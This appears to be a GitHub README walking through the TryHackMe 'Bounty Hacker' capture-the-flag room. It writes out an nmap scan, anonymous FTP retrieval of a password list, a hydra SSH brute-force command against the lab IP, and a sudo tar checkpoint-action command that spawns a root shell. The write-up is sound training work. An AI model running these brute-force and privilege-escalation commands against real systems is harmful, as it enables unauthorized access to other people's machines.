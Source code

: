 
# TryHackMe: Bounty Hacker 🕵️‍♂️

## Overview

**Bounty Hacker** is a beginner-friendly Capture The Flag (CTF) room on [TryHackMe](https://tryhackme.com/room/cowboyhacker) that simulates a real-world penetration test on a compromised system. The goal is to gain initial access, enumerate, escalate privileges, and retrieve both `user.txt` and `root.txt` flags.

- **Platform**: TryHackMe
- **Difficulty**: Easy
- **Category**: Linux, Enumeration, Privilege Escalation, FTP, SSH
- **Machine IP**: `10.10.90.250`

---

## Objectives

✅ Perform enumeration using Nmap  
✅ Access files via Anonymous FTP  
✅ Crack SSH credentials  
✅ Escalate privileges using misconfigured sudo permissions  
✅ Retrieve `user.txt` and `root.txt` flags

---

## Tools Used

- `nmap` – for port scanning and service enumeration  
- `ftp` – to connect to FTP server  
- `hydra` – for brute-forcing SSH credentials  
- `tar` – for privilege escalation via sudo  
- `mousepad/cat` – for file inspection  

---

## Walkthrough

### 🔍 Enumeration

```bash
nmap -T5 -p- -vv -Pn -sV 10.10.90.250 -oA nmap
```

Discovered open ports:
- **21/tcp** - FTP (vsftpd 3.0.3)
- **22/tcp** - SSH (OpenSSH 7.2p2)
- **80/tcp** - HTTP (Apache 2.4.18)

FTP allowed **anonymous login**.

---

### 📁 FTP Anonymous Access

```bash
ftp 10.10.90.250
# Login as 'anonymous'
get locks.txt
get task.txt
```

Downloaded wordlists containing potential passwords.

---

### 🔐 SSH Brute-Force (hydra)

Discovered user **lin** (from `task.txt`), then brute-forced using:

```bash
hydra -l lin -P locks.txt ssh://10.10.90.250
```

Successfully logged in via SSH.

---

### 👤 User Access

```bash
ssh lin@10.10.90.250
cat ~/Desktop/user.txt

```

---

### 🔝 Privilege Escalation

```bash
sudo -l
# lin can run: (root) /bin/tar
```

Exploited tar to gain root:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Got root shell!

---

### 🏁 Root Flag

```bash
cd /root
cat root.txt

```

---

## Final Notes

- This box reinforces the importance of:
  - Checking for **anonymous services**
  - Simple **brute-force + enumeration**
  - Misconfigured **sudo permissions**
- Root via `tar` is a classic Linux privilege escalation.

---



## Author

👤 **Faisal Khan**  
📂 Cybersecurity Enthusiast | CTF Player | Bug Bounty Hunter  
🔗 GitHub:  [GitHub] (https://github.com/mrfaisal607)  
🌐 TryHackMe Profile: [my Profile](https://tryhackme.com/p/mrfaisal0003)

---

> “Hacking is not just about breaking into systems, it's about learning how they work.” 🧠
